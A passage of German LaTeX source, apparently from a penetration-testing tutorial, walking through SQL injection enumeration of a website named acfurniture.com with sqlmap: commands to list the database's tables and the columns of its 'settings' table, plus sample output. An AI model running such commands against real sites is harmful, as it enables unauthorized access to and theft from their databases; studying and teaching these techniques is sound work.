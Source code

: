 \textbf{B. Tabellenname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{table}[h]
	\centering
	\begin{tabular}{|l|}
		\hline
		{[}Date{]} {[}INFO{]} retrived: settings \\ \hline
		Database: acfurniture                    \\ \hline
		{[}4 tables{]}                           \\ \hline
		category                                 \\ \hline
		product                                  \\ \hline
		product\_hacked                          \\ \hline
		settings                                 \\ \hline
	\end{tabular}
	\caption{Ergebnis: Tabellenname}
\end{table}

Bisher wurde festgestellt, dass die Website \texttt{acfurniture.com} hat zwei Datenbanken, acfurniture und information\_schema. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --columns
\end{LaTeXCode}

